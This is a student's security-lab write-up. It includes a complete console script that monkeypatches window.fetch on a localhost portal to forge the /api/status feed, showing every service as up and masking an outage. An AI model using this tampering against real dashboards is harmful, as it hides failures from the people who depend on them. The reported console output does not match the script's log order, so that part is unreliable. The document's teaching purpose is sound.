



# Mission 3: Console attack, forge the status feed

## Before: an honest Refresh

Real feed, some services not up, 7 rejected:



## After: my cover-up

Every service UP / ONLINE, 0 rejected:



Portal still shows everything up during a simulated HTTP 503 outage:



## My attack script

Paste the full contents of `attacks/m3_coverup.js`:

```js
// =====================================================================
// MISSION 3 ATTACK: Cover up the outage
// =====================================================================
// Write your attack here, then COPY the whole file and PASTE it into the
// DevTools Console of http://localhost:3000. Then click Refresh.
//
// Start from the worked example in examples/m3_case_fetch_spy.js.
//
// Author:Fahd Alenezi
// =====================================================================

(() => {
  const realFetch = window.fetch;

    let lastForged = null;

  function forgeReport(data) {
    const services =
      data && Array.isArray(data.services) ? data.services : [];

    const forgedServices = services.map((item, index) => {
      const service =
        item !== null && typeof item === "object" && !Array.isArray(item)
          ? item
          : {};

      let name = "Service " + (index + 1);

      if (typeof service.name === "string" && service.name.trim() !== "") {
        name = service.name.trim().slice(0, 64);
      }

      let latencyMs = 0;

      if (
        typeof service.latencyMs === "number" &&
        Number.isFinite(service.latencyMs) &&
        service.latencyMs >= 0
      ) {
        latencyMs = service.latencyMs;
      }

      return {
        name: name,
        status: "up",
        online: true,
        latencyMs: latencyMs
      };
    });

    return {
      services: forgedServices
    };
  }

  window.fetch = async (input, init) => {
    const requestUrl =
      input instanceof Request ? input.url : String(input);

    const path = new URL(requestUrl, window.location.href).pathname;

    if (path !== "/api/status") {
      return realFetch(input, init);
    }

    try {
     console.log("[async] before await realFetch");

     const res = await realFetch(input, init);

     console.log("[async] after await realFetch");

    if (!res.ok) {
        throw new Error("HTTP " + res.status);
      }

      const realData = await res.clone().json();
      const forgedData = forgeReport(realData);

      lastForged = forgedData;

      console.log("[attack] forged status report");

      return new Response(JSON.stringify(forgedData), {
        status: 200,
        headers: {
          "Content-Type": "application/json"
        }
      });
    } catch (error) {
      if (lastForged !== null) {
        console.log("[attack] outage hidden with cached forged report");

        return new Response(JSON.stringify(lastForged), {
          status: 200,
          headers: {
            "Content-Type": "application/json"
          }
        });
      }

      throw error;
    }
  };

  window.__restoreFetch = () => {
    window.fetch = realFetch;
    console.log("[attack] real fetch restored");
  };

  console.log("[attack] cover-up installed");
})();

```

## Questions

1. Can `window.fetch` be replaced by code running in the page? How did you confirm it, and why does that break every client-side security assumption?

   > Yes. I confirmed it by replacing `window.fetch` in the Console and seeing my code intercept `/api/status` and log `[attack] forged status report`. This breaks client-side security assumptions because code running in the page can change the functions and data that the frontend trusts.

2. The real feed contains a `null` entry and other junk. What did your `map` do so it would not crash on those, and still produce a report that passes the portal's validator?

   > My `map` checked if each item was a real object. If it was `null`, an array, or something invalid, I used an empty object instead. Then I gave it a safe service name and latency value, and always set `status` to `up` and `online` to `true`, so the new report would pass the validator.

3. The portal used `textContent` and validated its data, yet you still fooled it. Name the single assumption the portal made that was false.

   > The false assumption was that the data coming from `fetch` could be trusted. Since code running in the page can replace `window.fetch`, the portal can be given fake data that still passes validation.

## Async order: predict, then verify

**My prediction, written before running anything:**

> Does `await realFetch(...)` finish before or after `loadStatus` hands control back to the click handler? My guess: `loadStatus` hands control back first, and `await realFetch(...)` finishes later.
**What the console actually showed:**

```
[async] before await realFetch
[attack] forged status report
[async] after await realFetch
[attack] forged status report
```

**Explanation, using single-threaded, non-blocking, and event loop:**

 > JavaScript is single-threaded, but fetch is non-blocking. When the code reaches await, it gives control back while waiting for the response. When the response is ready, the event loop lets the async function continue after await.

## Stretch goal, optional

> Leave empty if not attempted.

## Documentation log

| Page I used, with URL | One thing I learned from it |
|---|---|
| https://developer.mozilla.org/en-US/docs/Web/API/Response/Response | I learned that the Response() constructor creates a new Response object, and its options can include status, statusText, and headers. |
